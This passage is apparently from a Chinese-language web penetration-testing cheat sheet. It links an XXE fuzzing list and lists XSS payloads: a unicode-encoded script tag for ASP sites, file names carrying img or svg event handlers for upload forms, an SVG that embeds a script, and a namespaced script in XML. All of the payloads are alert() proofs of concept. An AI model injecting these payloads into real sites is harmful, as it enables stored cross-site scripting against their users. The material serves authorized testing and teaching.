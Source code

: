 ```
end
```

fuzz

```
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
```

## 5.XSS

对于asp的站点，我们用unicode编码尖括号，适用于存储型XSS：

```
'%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e'
```

### 文件上传的XSS

发现上传点的时候，可以试试用payload作为文件名：

```
<img src=x onerror=alert('XSS')>.png
```

or：

```
"><img src=x onerror=alert('XSS')>.png
```

or:

```
"><svg onmouseover=alert(1)>.svg
```

### SVG

stuff.svg

```
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('XSS!');
   </script>
</svg>
```

### XML

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```
